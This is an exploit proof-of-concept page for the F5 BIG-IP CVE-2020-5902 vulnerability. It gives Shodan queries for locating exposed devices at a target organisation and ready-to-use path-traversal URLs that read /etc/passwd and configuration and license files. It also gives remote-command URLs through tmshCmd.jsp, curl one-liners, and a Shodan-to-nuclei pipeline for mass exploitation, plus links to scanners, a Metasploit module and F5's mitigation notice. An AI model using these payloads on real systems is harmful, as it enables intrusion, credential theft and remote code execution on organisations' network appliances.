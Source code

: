 # 🚨BIGIP CVE-2020-5902 Exploit POC 🔥🧱🔨👀 
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
## Shodan Seaarch
```console 
title:"Big-IP&reg;" org:"Organization Name"
http.title:"BIG-IP&reg;- Redirect" org:"Organization Name"
http.favicon.hash:-335242539 "3992" org:"Organization Name"
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
## 🔸LFI
```console
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```
```ruby
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/tmp
```
```yaml
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/f5-release
```
```powershell
https://{host}/tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
```
```ruby
https://{host}/tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=jaffa
```
```bash
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
```
```python
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
```
```yaml
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/usr/local/www/
```
## 🔸RCE 💦
```console
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami
```
```yaml
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
## 🎯 Manuel POC 🔥
```ruby
curl -sk 'https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
```
```bash
curl -sk 'https://{IP}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
```
`
curl -sk 'https://{host}/tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=Vulnerable' | grep -q Vulnerable && printf '\033[0;31mVulnerable\n' || printf '\033[0;32mNot Vulnerable\n'
`
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
## 📜 Nuclei Detect CVE-2020-5902
https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/CVE-2020-5902.yaml

```console
nuclei -t ~/tool/nuclei/nuclei-templates/cves/CVE-2020-5902.yaml -l https.txt
```
![image](https://i.ibb.co/hHsWjrk/4.png)
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
![image](https://i.ibb.co/fNm0JGL/2.png)

### 🧱🔨 Jaeles Detect CVE-2020-5902 🔋

https://github.com/jaeles-project/jaeles-signatures/blob/master/common/bigip-cve-2020-5902.yaml

```console
jaeles scan -s bigip-cve-2020-5902.yaml -U https_url.txt
```
![image](https://i.ibb.co/5xKhCb4/6.png)
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
## 🔎 NMAP Script for CVE-2020-5902
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```powershell
wget https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-5902.nse
```
```console
nmap -p443 {IP} --script=http-vuln-cve2020-5902.nse
```
![image](https://i.ibb.co/S0df0bk/5.png)

## 🚩CVE-2020-5902 Scanner Python Script

⭐️🚩 https://github.com/jas502n/CVE-2020-5902
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
https://github.com/dunderhay/CVE-2020-5902

https://github.com/aqhmal/CVE-2020-5902-Scanner

## 🌐 Online BIG-IP F5 CVE-2020-5902 Checker

```diff 
- 🤷‍♂️ Note: Not Safe(it may be collecting information in the background.)
``` 
http://threatintel.xyz/F5checker.php

## 💡 Automate Find CVE-2020-5902 🔎 
https://medium.com/@dwi.siswanto98/weaponizes-nuclei-workflows-to-pwn-all-the-things-cd01223feb77

`
shodan search org:"Target" http.favicon.hash:-335242539 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | httprobe | nuclei -t workflows/bigip-pwner-workflow.yaml
`

## 🔨💣 RCE Metasploit CVE-2020-5902 
https://github.com/rapid7/metasploit-framework/pull/13807#

`modules/exploits/linux/http/f5_bigip_tmui_rce.rb`

https://github.com/rapid7/metasploit-framework/pull/13807/commits/0417e88ff24bf05b8874c953bd91600f10186ba4

## 🚨RCE 💢 
https://twitter.com/chybeta/status/1279807030740516865?s=21
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/
https://github.com/Critical-Start/Team-Ares/tree/master/CVE-2020-5902
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

https://research.nccgroup.com/2020/07/05/rift-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902-intelligence/

## 📝K52145254: TMUI RCE vulnerability CVE-2020-5902 Mitigation

https://support.f5.com/csp/article/K52145254?sf235665517=1
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
## Explaining CVE 2020-5902 and how to mitigate
https://www.youtube.com/watch?v=-_v8D4MWPCc
